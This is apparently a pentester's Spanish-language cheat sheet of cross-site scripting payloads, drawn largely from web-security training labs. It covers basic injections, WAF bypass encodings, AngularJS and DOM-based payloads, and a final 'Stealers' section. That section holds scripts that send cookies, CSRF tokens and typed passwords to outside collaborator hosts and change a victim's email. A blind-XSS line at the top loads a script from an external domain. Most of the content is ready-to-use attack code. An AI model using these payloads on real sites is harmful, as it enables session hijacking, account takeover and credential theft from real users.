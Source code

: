 -- -
## **bXSS**
```html
<img/src/onerror=import('https://xss0r.com/c/vacasa');//>
```


---

## **Inyecciones Básicas (con Tag Cerrado)**  
```html
<script>alert(1)</script>
<img src="x" onerror="alert('XSS')" />
<iframe src="javascript:alert('XSS');"></iframe>
<svg onload="alert('XSS');"></svg>
<video><source onerror="alert('XSS');"></source></video>
<object data="javascript:alert('XSS');"></object>
<math><annotation-xml encoding="application/xhtml+xml"><script>alert('XSS');</script></annotation-xml></math>
abc’”><><img src=1 onerror=alert(document.cookie)>
```

---

## **Bypass de WAF**  
- **HTML Entities**: `&#60;script&#62;`.  
- **URL Encoding**: `%3Cscript%3E`.  
- **Hex/Unicode**: `\u003Cscript\u003E`.  
- **Double Encoding**: `%26%2360%3Bscript%26%2362%3B`.  

---
## **Payloads segun ocaciones**  
```javascript 
" style="animation-name:swoop-up" onanimationstart="alert(document.domain)
```

**Escapando de los tags originales y poniendo mis propios tags**
```html
"><script>alert(0)</script>
```

**Buscando cargar una imagen erronea para asi generar un error**
```html
<img src=x onerror=alert(0)>
```

**Si se esta utilizando Jquery**
```html
1. #<img src=x onerror=alert(0)>
Si es que se refleja

2. <iframe src="https://URL/#" onload="this.src += '<img src=0 onerror=alert(0)>'"></iframe>
```

**Si vemos que lo que inyectamos se refleja en un `<input>`**
```html
" onmouseover="alert(0)
```

**Si jugamos con la declaracion de variables**
```javascript
'-alert(1)-'
kike'; alert(0); var probando='testing
kike'; alert(0)//
kike\'%2balert(0);// ---> siempre y cuando nos escape la '\'
```

**Si la url esta pasando parametros por post, intentar mandarlos por GET como otro parametro aparte y cerrar los tags en los que esta encasillado**
```python
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1 ---> el servidor envia ahi data por POST en diversos parametros
https://0a680079035eb8ab82f76614006700da.web-security-academy.net/product?productId=1&storeId=</option></select><script>alert(0)</script> ---> Le paso data por que mandaba por POST, solo que por GET, cierro las etquietas y asi se ejecuto el codigo reflejado
```

**Si esta usando AngularJS y vemos la palabra ng-app en el codigo**
```javascript
{{constructor.constructor('alert(1)')()}}
```

**Si nuestra data se refleja en un json y/o se esta ejecutando angularJS, vale la pena probar**
```javascript 
asdas\"-alert(0)}//
```

**Si permite usar body y onresize**
```html
<iframe src="https://0ad6008404cf2e4a805d219f00200007.web-security-academy.net/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>
```

**Si vemos que no se pueden usar etiquetas comunes, probamos usando etiquetas custom**
```html
<custom id=identifier onfocus=alert(0) tabindex=1>#identifier
```

**Si permite el uso de svg y anchor pero no el href**
```javascript
<svg><animateTransform onbegin=alert(0)>
<svg><a><animate attributeName=href values=javascript:alert(0) /><text x=50 y=50>Click me</text></a>
```

**Si podemos modificar parte de un canonical link tag**
```javascript
https://URL/?'accesskey='x'onclick='alert(0)
```

**Cerrando el tag script en el cual estaba encerrado**
```javascript
</script><script>alert(0)</script>
```

**Abusando del evento onclick con caracteres escapados**
```javascript
http://kike.com&apos;+alert(0)+&apos;
```

**Si la variable se encierra entre backticks:**
```javascript
${alert(0)}
```

**Si esta usando angularJS 1.4.4 y no se puede usar ' ni "**
```javascript
?search=&toString().constructor.prototype.charAt=[].join; [1,2]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

**Invocar alert escapando del contexto y sin parentesis ni backticks**
```javascript
payload(x=x=>{throw/**/onerror=alert,1337},toString=x,window+'')cierre(,{x:')
```

**Aprovechando una HTMLi para crear un boton malicioso**
```html
my-account?email=prueba"></form><form class="login_form" name="myform" action="https://exploit-0aa900d0042394388054026e017a0088.exploit-server.net/exploit" method="GET"><button class=button type=submit>Click me</button>
```

**Aprovechando insercion en el content CSP**
```html
script-src-elem 'unsafe-inline'
```

### **DOM XSS**
**Aprovechando `window.addEventListener` y `Postmessage`**
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("<img src=x onerror=alert(0)","*")'></iframe>
```

*Abusando de  location.href*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("javascript:alert(0)//https://kike.com","*")'></iframe>
```

*Abusando de json.parse*
```html
<iframe width=600px height=600px src="https://URL/" onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:alert(0)\"}","*")'></iframe>
```

*Manipulando cookies y alterando el href*
```html
<iframe src="https://URL/product?productId=3&'><script>alert(0)</script>" onload="if(!window.x)this.src='https://URL';window.x=1;"></iframe>
```

*Explotando DOM Cloberring y DOM purify*
```html
<a id=defaultAvatar>
<a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(0)>//">

<form id=x tabindex=0 onfocus=alert(0)><input id=attributes>
<iframe src="https://URL/post?postId=4" onload="setTimeout(() => this.src += '#x', 500);"></iframe>

```
---
## **Stealers**
### **Cookie stealer**
```javascript
<script>
	fetch("https://URL/?cookie=" + btoa(document.cookie));
</script>
```

### **CSRF stealer**
```javascript
<script>
	var req = new XMLHttpRequest();
	req.open("GET", "/my-account", true);
	req.send();
	
	var response = req.responseText;
	var csrf_token = response.match(/name="csrf" value="(\w+)"/)[1];
	
	var req2 = new XMLHttpRequest();
	req2.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?response=' + btoa(response), false);
	req2.send();
	
	var req3 = new XMLHttpRequest();
	req3.open('GET', 'https://d1f1vc0tfn8d4zsygrb2pr4neek58wwl.oastify.com/?token=' + btoa(csrf_token), false);
	req3.send();

	var req4 = new XMLHttpRequest();
	req4.open('POST', "/my-account/change-email", true);
	req4.setRequestHeader("Content-Type","application/x-www-form-urlencoded")
	var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token);
	req4.send();
	
</script>
```

```javascript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true);
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); 
		changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>

```

## **Password stealer**

```javascript
`<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://ugee0gt5d0krro32q1x1km9wun0eo8cx.oastify.com',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">`
```

```javascript
<script>
function hax() {
  var token = document.getElementsByName('csrf')[0].value;
  var username = document.getElementsByName('username')[0].value;
  var password = document.getElementsByName('password')[0].value;

  var data = new FormData();
  data.append('csrf', token);
  data.append('postId', 8);
  data.append('comment', `${username}:${password}`);
  data.append('name', 'victim');
  data.append('email', 'zenshell@zenshell.ninja');
  data.append('website', 'http://www.zenshell.ninja');

  fetch('/post/comment', {
    method: 'POST',
    mode: 'no-cors',
    body: data
  });
}
</script>
```